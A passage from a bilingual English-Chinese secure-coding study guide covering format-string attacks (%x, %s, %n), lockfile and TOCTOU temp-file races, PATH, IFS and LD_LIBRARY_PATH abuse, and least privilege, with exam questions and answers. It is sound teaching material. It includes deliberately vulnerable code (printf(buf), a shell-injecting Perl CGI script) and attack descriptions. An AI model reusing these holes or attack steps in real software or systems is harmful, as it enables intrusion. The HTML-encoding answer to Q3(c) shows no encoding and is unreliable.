If buf holds specifiers, printf takes arguments that nobody supplied. A missing argument is not an error. It reads the words that happen to lie next on the stack, just above the format pointer. The % language is a small interpreter that the user now programs.如果 buf 中含有格式说明符，printf 就会取用一些从未有人提供的参数。缺少参数并不会报错，它会读取栈上恰好位于格式指针上方的那些字。% 语言是一个小型解释器，而用户现在等于在为它编写程序。
higher addresses
caller's locals, saved registers <- read as the 2nd, 3rd ... "arguments"
pointer to the format string <- the only argument really passed
return address
lower addresses
Step 2: what the specifiers do第 2 步：格式说明符的作用
| Specifier说明符 | printf treats the next word as ...printf 将下一个字视为…… | Effect for the attacker对攻击者的效果 |
|---|---|---|
%x, %p (also %08x) |
a value to print in hexadecimal以十六进制打印的一个值 | reads the stack word by word: leaks data, pointers, canaries, return addresses逐字读取栈：泄露数据、指针、金丝雀和返回地址 |
%s |
a pointer to a string指向字符串的指针 | prints memory from that address up to a zero byte: arbitrary read, or a crash (denial of service) if the word is not a valid address从该地址起输出内存，直到遇到零字节：任意读取；若该字不是有效地址，则会崩溃（拒绝服务） |
%n |
a pointer to an int |
writes the number of characters output so far to that address: an arbitrary memory write写入截至当前已输出的字符数到该地址：任意内存写入 |
%hn, %hhn |
a pointer to a short or a char |
writes only 2 or 1 bytes只写入 2 个或 1 个字节 |
width, as in %100x |
pads the output to 100 characters, so the count that %n stores is controlled将输出填充到 100 个字符，因此 %n 所存储的计数可以被控制 |
Small examples (illustrative):小例子（仅作说明）：
%x: the next word is 0x0000002a. The output is2a. Three%xleak three words.%x：下一个字是 0x0000002a。输出为2a。连用三个%x会泄露三个字。%s: the next word is 0x08049f10 and that address holdshellofollowed by a zero byte. The output ishello. If the word is not a valid address, the program crashes.%s：下一个字是 0x08049f10，这个地址处存放的是hello，之后跟着一个零字节。输出为hello。如果这个字不是有效地址，程序就会崩溃。%n: afteraband%5dthe count is 7. The value 7 is stored at the address in the next word. That is a memory write.%n：在ab和%5d之后，计数为 7。数值 7 被存入下一个字所给出的地址处。这就是一次内存写入。
Reading with %x and %s gives information disclosure and crashes. %n gives control. The format string usually lies on the stack itself, so the attacker places a target address among the words that printf reads. Then %n stores a chosen value there: a return address, a function pointer or a security flag. The result is code execution with the program's privileges. Width fields such as %100x control the count that %n stores.用 %x 和 %s 读取，会造成信息泄露和崩溃。%n 则能让攻击者获得控制权。格式串通常位于栈上本身，因此攻击者会在 printf 所读取的那些字中放入一个目标地址。然后，%n 把选定的值存入这个地址：可以是返回地址、函数指针或安全标志。结果是以程序的权限执行攻击者的代码。宽度字段（如 %100x）控制 %n 所存储的计数。
Trace of %n: the call int n; printf("ab%5d%n", 7, &n); prints ab and then 7, which is 2 + 5 = 7 characters. So n = 7. With %08x instead of %x, the word 0x0000002a is printed as 0000002a.%n 的执行过程：调用 int n; printf("ab%5d%n", 7, &n); 先输出 ab，再输出 7，两者共 2 + 5 = 7 个字符，因此 n = 7。若用 %08x 代替 %x，字 0x0000002a 将被输出为 0000002a。
Step 3: the fix第 3 步：修复方法
- Use a constant format string:
printf("%s", buf),puts(buf)orfputs(buf, stdout). For logging usesyslog(prio, "%s", msg). The user's text is then only data. Stripping the percent sign is a denylist, not a fix.使用常量格式串：printf("%s", buf)、puts(buf)或fputs(buf, stdout)。日志输出则使用syslog(prio, "%s", msg)。这样，用户的文本就只是数据。去掉百分号属于黑名单，不是真正的修复。 - Let the compiler find it. Build with
-Wformat -Wformat-security, which warns when a non-literal format string is used without arguments. Static analysis and fuzzing also find the pattern.让编译器发现它。 使用-Wformat -Wformat-security编译，当使用没有参数的非字面量格式串时，它会发出警告。静态分析和模糊测试也能发现这种写法。 - Contain leftover bugs.
_FORTIFY_SOURCE=2makes glibc abort on%nin a writable format string. ASLR, stack canaries, a non-executable stack, a read-only GOT (RELRO) and least privilege make exploitation harder.限制遗留缺陷的危害。_FORTIFY_SOURCE=2会使 glibc 在可写的格式串中遇到%n时中止程序。ASLR、栈金丝雀、不可执行栈、只读 GOT（RELRO）和最小权限都会增加利用的难度。
Practice练习
Q1. (Trace) The three words above the format pointer are 0x00000064, 0xcafef00d and 0x00401000, and the program calls printf(buf) with buf = "%d %x %08x". What is printed? What happens if buf is "%s"?Q1.（手工演算）格式指针上方的三个字为 0x00000064、0xcafef00d 和 0x00401000，程序以 buf = "%d %x %08x" 调用 printf(buf)。将输出什么？如果 buf 为 "%s"，会发生什么？
Answer
Output 100 cafef00d 00401000: %d prints 0x64 as 100, %x prints cafef00d, and %08x pads 401000 to eight digits. With "%s" the first word 0x00000064 is used as a string pointer; address 100 is not mapped, so the program crashes with a segmentation fault (denial of service). Had the word pointed to valid memory, that memory would have been printed.输出 100 cafef00d 00401000：%d 将 0x64 输出为 100，%x 输出 cafef00d，%08x 将 401000 补足为八位数字。若使用 "%s"，则第一个字 0x00000064 被当作字符串指针；地址 100 未被映射，因此程序因段错误而崩溃（拒绝服务）。若该字指向有效内存，则会输出该处的内存内容。
Q2. (Explain) Why is printf(buf) dangerous although the attacker supplies no arguments? Give the corrected call and one compiler option that helps.Q2.（解释）为什么 printf(buf) 是危险的，即使攻击者不提供任何参数？请给出修正后的调用方式，以及一个有助于发现该问题的编译器选项。
Answer
printf cannot know how many arguments were passed; for every specifier in the data it takes another word from the stack (or a register). So the attacker reads stack memory with %x, reads or crashes with %s, and writes memory with %n. The corrected call is printf("%s", buf): the format is a constant and buf is only data. -Wformat-security (with -Wformat) warns about non-literal formats without arguments.printf 无法得知传入了多少个参数；对于数据中的每个说明符，它都会从栈（或寄存器）中再取一个字。因此，攻击者可以用 %x 读取栈内存，用 %s 读取或导致崩溃，并用 %n 写入内存。修正后的调用是 printf("%s", buf)：格式为常量，而 buf 只是数据。-Wformat-security（配合 -Wformat）会对没有参数的非字面量格式发出警告。
Q3. (Compare) Compare a format-string vulnerability with a classic buffer overflow: cause, what the attacker gets, fix.Q3.（比较）比较格式化字符串漏洞与经典的缓冲区溢出：成因、攻击者获得的能力以及修复方法。
Answer
Cause: a buffer overflow is a missing bounds check on a copy; a format-string bug is user data interpreted as a format directive (an injection flaw). Attacker: the overflow overwrites adjacent memory in sequence; the format-string bug reads and writes chosen addresses without any buffer being overrun, so it needs a different defence than buffer-size checks. Fix: bounds checks and safe copy functions (Chapter 14) versus a constant format string.成因：缓冲区溢出是复制操作缺少边界检查；格式化字符串缺陷则是用户数据被当作格式指令来解释（一种注入缺陷）。攻击者能力：溢出会按顺序覆盖相邻的内存；而格式化字符串缺陷能够读取和写入任意选定的地址，且不会使任何缓冲区溢出，因此需要与缓冲区大小检查不同的防御。修复方法：边界检查与安全的复制函数（第 14 章），对应的修复则是使用常量格式字符串。
Safe program code, races and the operating system ★★安全的程序代码、竞争条件与操作系统
Goal. Explain a race condition and the atomic fix, describe a TOCTOU attack on a temporary file with the safe way to create one, and say why environment variables and privileges matter.目标。 解释竞争条件及其原子性修复方法，描述针对临时文件的 TOCTOU 攻击以及安全创建临时文件的方法，并说明环境变量和权限为什么重要。
Step 1: race conditions and the lockfile第 1 步：竞争条件与锁文件
In words: a race condition = the result depends on who is faster, because two processes use a shared resource without control.用文字表述：竞争条件 = 结果取决于谁更快，因为两个进程在没有控制的情况下使用同一个共享资源。
A race condition occurs when processes or threads compete for uncontrolled access to a shared resource. Values are corrupted or updates are lost. The cure is synchronization (mutex, semaphore). Wrongly used locks cause deadlock（死锁）: each party waits for a resource that the other holds.当进程或线程竞争对共享资源的无控制访问时，就会出现竞争条件，结果是数据被破坏或更新丢失。解决办法是同步，即使用互斥量和信号量。使用不当的锁会造成死锁：各方都在等待对方持有的资源。
Programs also share files. The oldest lock is the lockfile（锁文件）: a process must create and own it to use the resource. The obvious code, "check that the lockfile does not exist, then create it", has a gap:程序之间也会共享文件。最古老的锁是锁文件：进程必须创建并拥有它，才能使用这个资源。下面这段显而易见的代码（“先检查锁文件是否存在，然后创建它”）存在一个漏洞：
| Step步骤 | Process P1进程 P1 | Process P2进程 P2 | Lockfile锁文件 |
|---|---|---|---|
| 1 | checks: absent检查：不存在 | absent不存在 | |
| 2 | suspended by the system被系统挂起 | checks: absent检查：不存在 | absent不存在 |
| 3 | creates it, uses the shared file创建它，使用共享文件 | present存在 | |
| 4 | resumes, creates it, uses the shared file恢复运行，创建它，使用共享文件 | present存在 |
Both processes use the file at once and corrupt it. The fix: check and create must form one atomic operation（原子操作）, executed without interruption. Always try to create the file with an option that fails if it exists, O_CREAT|O_EXCL, and wait and retry on failure. The operating system guarantees atomicity.两个进程可能同时使用这个文件，从而把它损坏。修复方法是：检查和创建必须合为一个原子操作，执行时不被打断。应始终使用“文件已存在则失败”的选项来创建文件（即 O_CREAT|O_EXCL），失败时等待后重试。原子性由操作系统保证。
Step 2: temporary files and TOCTOU第 2 步：临时文件与 TOCTOU
The usual method names the file with the process identifier, checks that it does not exist, and then creates it. It is reliable but not secure. This is a time-of-check to time-of-use (TOCTOU)（检查时间到使用时间）race:常用的方法是用进程标识符为文件命名，检查它是否存在，然后再创建它。这种方法可靠，但并不安全。这是一种检查时间到使用时间（TOCTOU）竞争：
- A set-user-ID-root tool builds the name
/tmp/job.4711and checks that it is free.一个 set-user-ID-root 工具构造名字/tmp/job.4711，并检查它是否空闲。 - The attacker guessed the name. Between check and use he makes a symbolic link
/tmp/job.4711to the password file.攻击者猜中了这个名字。在检查和使用之间，他创建一个指向口令文件的符号链接/tmp/job.4711。 - The tool opens the name, follows the link and overwrites the password file as root.工具打开这个名字，顺着链接找到口令文件，并以 root 身份覆盖口令文件。
Safe use:安全的做法：
- A random name.使用随机名称。
- Atomic creation (
mkstemp, oropenwithO_CREAT|O_EXCL), so that an existing file or link makes the call fail.原子创建（mkstemp，或者使用O_CREAT|O_EXCL的open），这样，只要存在同名文件或链接，调用就会失败。 - Mode 0600, so only the owner can read and write.权限设为 0600，使只有所有者能够读写。
- In a shared directory the sticky bit（粘滞位）, so that only the owner or an administrator can delete the file.在共享目录中，应设置粘滞位，使只有文件所有者或管理员才能删除该文件。
- Unlink the file when done.用完后 unlink 该文件。
tmpnam, tempnam and tmpfile are insecure unless used carefully, as in this loop:tmpnam、tempnam 和 tmpfile 若使用不当就是不安全的，例如下面这个循环：
do {
filename = tempnam(NULL, "foo");
fd = open(filename, O_CREAT | O_EXCL | O_TRUNC | O_RDWR, 0600);
free(filename);
} while (fd == -1);
Step 3: environment variables and least privilege第 3 步：环境变量与最小权限
Environment variables（环境变量）are strings that a process inherits from its parent: PATH (directories searched for commands), IFS (the word separators of the shell) and LD_LIBRARY_PATH (directories searched for shared libraries). They are untrusted input from the local user. A program with extra privileges, such as a set-user-ID program, is the target.环境变量是进程从其父进程继承的字符串：PATH（查找命令时搜索的目录）、IFS（shell 的单词分隔符）和 LD_LIBRARY_PATH（查找共享库时搜索的目录）。它们是来自本地用户的不可信输入。拥有额外权限的程序（例如 set-user-ID 程序）是攻击的目标。
#!/bin/bash
user=`echo $1 | sed 's/@.*$//'`
grep $user /var/local/accounts/ipaddrs
This script runs with its owner's rights. It names sed and grep without a path, so the shell searches PATH. An attacker puts his own grep in a directory listed first in PATH, and it runs with the script's privileges. Fix: absolute path names, or reset PATH at the start. The second still fails. If the attacker adds = to IFS, the shell reads PATH=... as a command named PATH. His program called PATH then runs. Privileged shell scripts are very hard to make safe, so their use is strongly discouraged. Avoid them, or use a compiled wrapper that builds a safe environment first (Apache's suexec).这个脚本以其所有者的权限运行。它用不带路径的方式调用 sed 和 grep，因此 shell 会搜索 PATH。攻击者把自己的 grep 放在 PATH 中排在最前面的目录里，它就会以脚本的权限运行。修复方法：使用绝对路径名，或在开头重设 PATH。但第二种方法仍然会失败：如果攻击者把 = 加入 IFS，shell 就会把 PATH=... 当作名为 PATH 的命令来读取，于是他的名为 PATH 的程序就会运行。带特权的 shell 脚本很难做到安全，因此强烈不建议使用。应避免使用它们，或者使用一个编译后的包装程序，先构建一个安全的环境（Apache 的 suexec 就是这样做的）。
With dynamic linking, the LD_LIBRARY_PATH directories are searched first, so a fake library runs with the program's privileges. Defences: static linking, or an operating system that ignores the variable when privileges differ.使用动态链接时，LD_LIBRARY_PATH 中的目录会被优先搜索，因此假的库会以程序的权限运行。防御措施：静态链接，或者使用一种在权限不同时忽略该变量的操作系统。
Least privilege（最小权限）means running each program with the least privilege its function needs, for the shortest time. If a flaw lets an attacker run code with more rights than he has, the result is privilege escalation（权限提升）. Practices:最小权限是指，让每个程序只拥有其功能所需的最小权限，并且只在最短的时间内持有。如果某个缺陷让攻击者能以超出其本身权限的权限运行代码，结果就是权限提升。常见做法：
- Prefer group to user privilege, so that files stay owned by the invoking user.优先使用组权限而不是用户权限，使文件仍归调用者所有。
- Own only what is needed. A web server runs as a special user with write access only to upload and script data.只拥有所需的文件。Web 服务器以一个特殊用户身份运行，该用户只对上传数据和脚本数据拥有写权限。
- Hold root only briefly. A server needs root only to bind a port below 1024, then switches to an unprivileged user.只短暂持有 root 权限。服务器只在绑定 1024 以下的端口时需要 root 权限，之后就切换到无特权用户。
- Split large programs into modules with just the privileges each needs.把大型程序拆分为模块，每个模块只拥有其所需的权限。
- Run risky code in a sandbox（沙箱）: the Java runtime, a chroot jail or a container.在沙箱中运行有风险的代码，例如 Java 运行时、chroot 监狱或容器。
Practice练习
Q1. (Calculation) Two threads each execute x = x + 1 once, as load, add, store, with x = 5 at the start and no lock. (a) Which final values are possible? (b) How many of the interleavings give each? (c) How is it fixed?Q1.（计算）两个线程各执行一次 x = x + 1（按取数、加法、存数的顺序），开始时 x = 5，且没有加锁。（a）可能出现哪些最终值？（b）每种结果对应多少种交错？（c）应如何修复？
Answer
(a) 6 or 7. (b) Keeping each thread's order, there are \(\binom{6}{3}=20\) interleavings. The result is 7 only if one thread's three steps all precede the other's (2 interleavings); in the other 18 both threads load 5, so one update is lost and x = 6. (c) Make the whole read-modify-write a critical section (mutex) or use an atomic increment; with several locks always acquire them in the same order, or the threads can deadlock.（a）6 或 7。（b）若保持每个线程内部的执行顺序，则共有 \(\binom{6}{3}=20\) 种交错。只有当一个线程的三个步骤全部先于另一个线程执行时（2 种交错），结果才是 7；在其余 18 种交错中，两个线程都读到 5，因此一次更新丢失，x = 6。（c）将整个读-改-写过程作为临界区（以互斥锁实现）加以保护，或者使用原子递增；若有多个锁，则应始终以相同的顺序获取，否则线程可能发生死锁。
Q2. (Scenario) A set-user-ID shell script calls date without a path. How can a local user abuse it, and why does PATH="/bin:/usr/bin" at the top of the script not fully help? Give two safer designs.Q2.（情景分析）一个设置了 set-user-ID 的 shell 脚本未带路径地调用了 date。本地用户如何利用它？为什么脚本开头的 PATH="/bin:/usr/bin" 无法完全起到作用？请给出两种更安全的设计。
Answer
The user puts a directory with his own program named date first in PATH; the script then runs it with the script owner's privileges. Resetting PATH is itself a shell assignment parsed with IFS: if IFS contains "=", the line is read as the command PATH with the directory list as its argument, so a program named PATH in the attacker's directory runs. Safer: use absolute path names and a compiled wrapper that clears the environment, sets PATH and IFS, and then runs the script; or avoid privileged scripts and, if unavoidable, change only the group identity.用户把一个含有他自己程序（名为 date）的目录放在 PATH 的最前面，脚本随后便会以脚本属主的权限运行它。重置 PATH 本身也是一条由 IFS 解析的 shell 赋值语句：若 IFS 包含 "="，该行就会被读作命令 PATH（以目录列表为参数），于是攻击者目录中名为 PATH 的程序便会被运行。更安全的做法是：使用绝对路径，并使用一个编译后的包装程序，由其清空环境、设置 PATH 与 IFS，然后再运行该脚本；或者避免使用特权脚本，若不可避免，则只更改组身份。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Memory leak（内存泄漏） | Dynamic memory never released. The heap runs out and the program crashes: an easy denial of service.动态内存从不释放。堆耗尽，程序崩溃，这是一种容易实现的拒绝服务 |
| Weak randomness弱随机性 | Early Netscape session keys came from a predictable seed. Make the code meet the assumption of unpredictability.早期 Netscape 的会话密钥来自可预测的种子。应使代码满足不可预测性的假设 |
| Left-over debug code遗留的调试代码 | sendmail's DEBUG command, used by the Morris worm. Remove debug hooks before release.sendmail 的 DEBUG 命令被 Morris 蠕虫利用。发布前应删除调试钩子 |
| Data interpretation数据解释 | Bits mean what the instructions treat them as. C converts freely between integers and pointers, which causes errors.比特的含义取决于指令把它们当作什么。C 语言可以在整数和指针之间自由转换，这会导致错误 |
| Overlong UTF-8超长 UTF-8 | A longer encoding of one character, for example C0 AF for the slash. Reject it during canonicalization.同一字符的更长编码，例如斜杠的 C0 AF。应在规范化时拒绝它 |
| DOM-based XSS基于 DOM 的 XSS | The page's own script writes untrusted data into the page. The server may never see the payload.页面自己的脚本把不可信的数据写入页面。服务器可能从未见过这段载荷 |
| Placeholder（占位符） | A parameterized query: fixed SQL text, value sent separately. The value can never become SQL.参数化查询：SQL 文本固定，值单独发送。这个值永远不会变成 SQL |
| Content Security Policy内容安全策略 | A header that lists the origins scripts may come from and blocks inline scripts. It limits XSS damage.一个首部，列出脚本允许来自的源，并阻止内联脚本。它能限制 XSS 造成的损害 |
| HttpOnly cookieHttpOnly Cookie | A cookie that script cannot read. Stops cookie theft, not other actions of the injected script.脚本无法读取的 Cookie。它能阻止窃取 Cookie，但无法阻止注入脚本的其他行为 |
| Chroot jailchroot 监狱 | Limits a process to one subtree of the file system. Hard to configure and not a complete solution.把进程限制在文件系统的某一子树内。配置困难，也不是完整的解决方案 |
| Secure file deletion安全删除文件 | Layers buffer and reorder writes: stdio, operating-system cache, controller, flash. Each layer needs a flush or sync.各层都会缓存并重排写操作：stdio、操作系统缓存、控制器和闪存。每一层都需要刷新或同步 |
| Other programs其他程序 | The output of one program is the input of another. Apply the size and interpretation rules between them.一个程序的输出是另一个程序的输入。在它们之间应用大小和解释规则 |
Exam-style questions考试题型练习
Q1. (Calculation and analysis, 12 marks) A network daemon reads a 32-bit length field len = 0x80000010 into a signed int, tests len <= 4096, then calls memcpy(buf, in, len) with a 4,096-byte buf, where len is converted to a 32-bit unsigned size_t.
(a) Give the signed value of len and say whether the test passes. (3)
(b) How many bytes are copied, and what is the vulnerability? (3)
(c) Fix the code. (2)
(d) A fuzzer sends uniformly random 32-bit values at \(10^6\) per second. Find the expected number of tests and the time until len equals exactly 0x80000010, and the expected number of tests until any value with the top bit set appears. What does the comparison show? (4)Q1.（计算与分析，12 分）一个网络守护进程将 32 位长度字段 len = 0x80000010 读入有符号变量 int，检查 len <= 4096，然后用一个 4,096 字节的 buf 调用 memcpy(buf, in, len)，其中 len 被转换为 32 位无符号的 size_t。（a）给出 len 的有符号值，并说明检查是否通过。（3）（b）复制了多少字节？存在什么漏洞？（3）（c）修复该代码。（2）（d）模糊器每秒发送 \(10^6\) 个均匀随机的 32 位值。求出 len 恰好等于 0x80000010 时的期望测试次数和所需时间，以及出现任一最高位被置位的值所需的期望测试次数。比较结果说明了什么？（4）
Answer
(a) 0x80000010 = 2,147,483,664, which is at least \(2^{31}\), so \(s=2147483664-2^{32}=-2147483632\). Since \(-2147483632\le4096\), the test passes. (3)（a）0x80000010 = 2,147,483,664，它至少为 \(2^{31}\)，因此 \(s=2147483664-2^{32}=-2147483632\)。由于 \(-2147483632\le4096\)，检查通过。（3）
(b) memcpy takes an unsigned size, so the length becomes 2,147,483,664 bytes again, which is 2,147,479,568 bytes more than the buffer holds. This is a buffer overflow caused by an integer (signedness) error: the check and the use interpret the same bits differently. (3)（b）memcpy 接受无符号大小参数，因此长度又变为 2,147,483,664 字节，比缓冲区所能容纳的多 2,147,479,568 字节。这是由整数（符号）错误引起的缓冲区溢出：检查与使用对同一组位的解释不同。（3）
(c) Declare len as size_t, reject len > sizeof buf (and negative values if a signed type must stay), and use a bounded copy. (2)（c）将 len 声明为 size_t，拒绝 len > sizeof buf（若必须保留有符号类型，则还要拒绝负值），并使用有界复制。（2）
(d) For one exact value \(p=2^{-32}\), so \(E[T]=2^{32}=4{,}294{,}967{,}296\) tests, which is 4,295 s, about 71.6 minutes. For any value with the top bit set \(p=1/2\), so \(E[T]=2\) tests. Random fuzzing finds bugs triggered by broad classes of input at once but needs enormous effort for one exact value, where template-based or targeted tests are needed. (4)（d）对于某一个确定的值 \(p=2^{-32}\)，因此需要 \(E[T]=2^{32}=4{,}294{,}967{,}296\) 次测试，即 4,295 s，约 71.6 分钟。对于任一最高位被置位的值，\(p=1/2\)，因此需要 \(E[T]=2\) 次测试。随机模糊测试能够一次发现由大类输入触发的缺陷，但对于某一个确定的值，则需要极大的努力，此时需要基于模板的测试或有针对性的测试。（4）
Q2. (Analysis, 15 marks) A Perl CGI script sends a form comment to the administrator:Q2.（分析，15 分）一个 Perl CGI 脚本将表单中的留言发送给管理员：
$subject = $q->param("subject");
$from = $q->param("from");
$body = $q->param("body");
system("export REPLYTO=\"$from\"; echo \"$body\" | mail -s \"$subject\" $to");
print "Thank you for your comment on $subject.";
(a) Identify three distinct security flaws and the attack each allows. (6) (b) Explain, for one of them, how the attacker's input is interpreted. (3) (c) Describe a corrected design. (4) (d) Why is a denylist of dangerous characters a poor fix? (2)（a）指出三个不同的安全缺陷，以及每个缺陷所允许的攻击。（6）（b）针对其中一个缺陷，解释攻击者的输入是如何被解释的。（3）（c）描述一种修正后的设计。（4）（d）为什么对危险字符使用黑名单是一种糟糕的修复方法？（2）
Answer
(a) (1) Command injection: the three fields are placed in a shell command line. A double quote closes the quoted argument and a semicolon starts another command (command substitution also works inside double quotes), so the attacker runs any command with the web server's privileges. (2) Reflected XSS: the subject is echoed into the HTML page unescaped, so a request whose subject holds script runs that script in the browser of whoever submits or follows it. (3) Mail header injection: line breaks in the subject or sender add headers or recipients, so the script can be abused to send spam. Also: detailed error output in the browser leaks internals, and missing length limits allow resource abuse. (6)（a）（1）命令注入：三个字段被放入 shell 命令行中。双引号会结束被引用的参数，分号则开始另一条命令（在双引号内部命令替换同样有效），因此攻击者能以 Web 服务器的权限运行任意命令。（2）反射型 XSS：主题未经转义便被回显到 HTML 页面中，因此主题中含有脚本的请求会使提交者或访问该链接的人的浏览器运行该脚本。（3）邮件头注入：主题或发件人中的换行符会添加头部或收件人，因此该脚本可能被滥用来发送垃圾邮件。此外：浏览器中详细的错误输出会泄露内部信息，而缺少长度限制则会导致资源滥用。（6）
(b) Take the subject. It is inserted between double quotes in a command string, so a subject that starts with a double quote, followed by a semicolon and a command, ends the mail command and starts a second one; the shell executes both because it cannot tell the programmer's text from the user's. (3)（b）以主题为例。它被插入到命令字符串中的双引号之间，因此，若主题以双引号开头，后跟分号和一条命令，就会使 mail 命令结束并开始第二条命令；shell 会执行这两条命令，因为它无法区分程序员的文本与用户的输入。（3）
(c) Allowlist each field (sender: an e-mail pattern; subject: printable characters without quotes, backquotes and line breaks; maximum lengths for all fields). Do not use the shell: run mail with an argument list and send the body on its standard input, or use a mail library. Remove line breaks from header fields. HTML-encode every value echoed to the page. Disable detailed error output, run the script with least privilege and rate-limit submissions. (4)（c）对每个字段进行白名单限制（发件人：电子邮件地址模式；主题：不含引号、反引号和换行符的可打印字符；所有字段设置最大长度）。不要使用 shell：以参数列表的方式运行 mail，并通过标准输入发送正文，或者使用邮件库。从邮件头字段中删除换行符。对回显到页面中的每个值进行 HTML 编码。禁用详细的错误输出，以最小权限运行该脚本，并对提交进行速率限制。（4）
(d) A denylist must name every dangerous character for the shell, for mail headers and for HTML, in every encoding, and new bypasses keep appearing; an allowlist defines what is valid and rejects everything else. (2)（d）黑名单必须列举出在 shell、邮件头和 HTML 中所有危险的字符，并涵盖每一种编码，而且新的绕过方式会不断出现；白名单则定义了什么是合法的，并拒绝其他一切。（2）
思路：先找“用户输入进入了哪个解释器”（shell、邮件头、HTML），每个出口各一个漏洞。
Q3. (Explain and compare, 12 marks) A forum shows posts exactly as submitted, and its search page prints Results for: followed by the query.
(a) Define XSS and explain why the browser runs the injected script despite the same-origin policy. (3)
(b) Which feature suffers stored and which reflected XSS? Compare delivery and victims. (4)
(c) Give the correctly encoded output for the post text <b>5 > 3 & 2 < 4</b>. (2)
(d) Name three defences other than output encoding and state what each achieves. (3)Q3.（解释与比较，12 分）一个论坛会原样显示提交的帖子，其搜索页面会输出 Results for: 以及查询内容。（a）定义 XSS，并解释尽管存在同源策略，为什么浏览器仍会运行注入的脚本。（3）（b）哪一项功能会遭受存储型 XSS，哪一项会遭受反射型 XSS？比较它们的传递方式和受害者。（4）（c）给出帖子文本 <b>5 > 3 & 2 < 4</b> 经过正确编码后的输出。（2）（d）列举除输出编码之外的三种防御措施，并说明每一种措施的作用。（3）
Answer
(a) XSS: input supplied by one user is output to other users without sanitizing, so attacker script runs in their browsers. The same-origin policy only separates different origins; the script is delivered by the forum itself, so the browser gives it the forum's origin and its access to cookies and page content. (3)（a）XSS：一个用户提供的输入未经净化便输出给其他用户，攻击者的脚本因而在其浏览器中运行。同源策略只区分不同的源；脚本由论坛本身交付，因此浏览器赋予它论坛的源，以及访问 Cookie 和页面内容的权限。（3）
(b) The forum posts suffer stored XSS: the payload is saved and shown to every later viewer, and the attacker submits it once. The search page suffers reflected XSS: the payload is in the query string and echoed in the next response, so the attacker must lure each victim to a crafted link. (4)（b）论坛帖子会遭受存储型 XSS：载荷被保存并显示给之后的每一位访问者，而攻击者只需提交一次。搜索页面会遭受反射型 XSS：载荷位于查询字符串中，并在紧接着的响应中被回显，因此攻击者必须诱使每个受害者点击精心构造的链接。（4）
(c) <b>5 > 3 & 2 < 4</b>. (2)
(d) Allowlist validation or a sanitizer for posts that allow markup (rejects script before it is stored); a Content-Type header with a character set (the browser cannot guess an encoding that bypasses the filter); HttpOnly cookies (injected script cannot read the session cookie); a Content Security Policy (blocks inline script); an auto-escaping template framework (encoding cannot be forgotten). (3)（d）对允许标记的帖子进行白名单验证或使用净化器（在存储之前拒绝脚本）；带有字符集的 Content-Type 响应头（浏览器无法猜测出能绕过过滤器的编码）；HttpOnly Cookie（注入的脚本无法读取会话 Cookie）；内容安全策略（阻止内联脚本）；自动转义的模板框架（编码不会被遗忘）。（3）
Q4. (Trace and explain, 12 marks) A function contains printf(name); where name is read from the network. Assume the words above the format pointer on the stack are 0x0000002a, 0xdeadbeef and 0x08049f10.
(a) Explain why this is a vulnerability although name should hold only text. (3)
(b) What is printed for name = "%x.%x.%x"? What happens if the first specifier is %s? (3)
(c) What does int n; printf("ab%5d%n", 7, &n); print and what is n? What does it show about %n? (3)
(d) Fix the code and name two further defences. (3)Q4.（手工演算与解释，12 分）一个函数中包含 printf(name);，其中 name 是从网络中读取的。假设栈上格式指针之上的字为 0x0000002a、0xdeadbeef 和 0x08049f10。（a）解释为什么这是一个漏洞，尽管 name 本应只包含文本。（3）（b）对于 name = "%x.%x.%x"，将输出什么？如果第一个说明符为 %s，会发生什么？（3）（c）int n; printf("ab%5d%n", 7, &n); 将输出什么，n 是多少？这说明了关于 %n 的什么问题？（3）（d）修复该代码，并指出另外两种防御措施。（3）
Answer
(a) name is used as the format argument. printf cannot know how many arguments were passed; for each specifier in the data it takes another word from the stack. The attacker therefore controls what is read (%x, %s), can crash the program, and can write memory with %n. It is an injection flaw: data are interpreted as a format directive. (3)（a）name 被用作格式参数。printf 无法得知传入了多少个参数；对于数据中的每个说明符，它都会从栈中再取一个字。因此，攻击者能控制读取的内容（%x、%s），能够导致程序崩溃，并能用 %n 写入内存。这是一种注入缺陷：数据被当作格式指令来解释。（3）
(b) 2a.deadbeef.8049f10: each %x prints the next stack word in hexadecimal, leaking stack contents. With %s first, the word 0x0000002a is used as a string pointer; address 42 is not mapped, so the program crashes (denial of service); a valid address would print memory from there. (3)（b）2a.deadbeef.8049f10：每个 %x 都会以十六进制输出栈上的下一个字，从而泄露栈的内容。若首先使用 %s，则字 0x0000002a 被当作字符串指针；地址 42 未被映射，因此程序崩溃（拒绝服务）；若是有效地址，则会从该处输出内存。（3）
(c) It prints ab 7 (2 + 5 = 7 characters) and n = 7. %n stores the number of characters output so far through its pointer argument, so it is a memory write whose value the attacker influences with field widths. (3)（c）它输出 ab 7（2 + 5 = 7 个字符），并且 n = 7。%n 通过其指针参数存储截至当前已输出的字符数，因此它是一次内存写入，其写入的值由攻击者通过字段宽度加以影响。（3）
(d) Use a constant format: printf("%s", name);. Further: compile with -Wformat -Wformat-security; _FORTIFY_SOURCE=2 aborts on %n in writable formats; static analysis, ASLR, canaries and a read-only GOT limit exploitation. (3)（d）使用常量格式：printf("%s", name);。此外：使用 -Wformat -Wformat-security 编译；_FORTIFY_SOURCE=2 会在可写格式字符串中遇到 %n 时中止程序；静态分析、ASLR、栈金丝雀以及只读 GOT 会限制攻击利用。（3）
Q5. (Scenario, 12 marks) A set-user-ID-root backup tool builds the name /tmp/backup.<pid>, tests with access() that it does not exist, then opens it with O_WRONLY|O_CREAT.
(a) Name the vulnerability class and describe the attack as a timeline. (4)
(b) PIDs range from 1 to 32,768 and the attacker needs 20 µs per symbolic link. How long does it take to cover every name, and what follows? (2)
(c) Describe a secure way to create the file. (4)
(d) Give two least-privilege measures for such a tool. (2)Q5.（情景分析，12 分）一个以 set-user-ID-root 方式运行的备份工具构造名称 /tmp/backup.<pid>，用 access() 检查该名称是否不存在，然后用 O_WRONLY|O_CREAT 打开它。（a）指出漏洞类别，并以时间线的形式描述攻击。（4）（b）PID 的取值范围为 1 至 32,768，攻击者创建每个符号链接需要 20 µs。覆盖所有名称需要多长时间？由此得出什么结论？（2）（c）描述一种安全创建该文件的方法。（4）（d）针对此类工具给出两项最小权限措施。（2）
Answer
(a) A time-of-check to time-of-use race on a predictable temporary file. The tool builds the name and checks that it is free; after the check and before the open, the attacker creates a symbolic link with that name to a protected file such as the password file; the tool, running as root, opens the link and overwrites the target. (4)（a）对可预测临时文件的检查时间到使用时间（TOCTOU）竞争。工具构造名称并检查其是否空闲；在检查之后、打开之前，攻击者创建一个指向受保护文件（如口令文件）的同名符号链接；以 root 身份运行的工具随后打开该链接，从而覆盖了目标文件。（4）
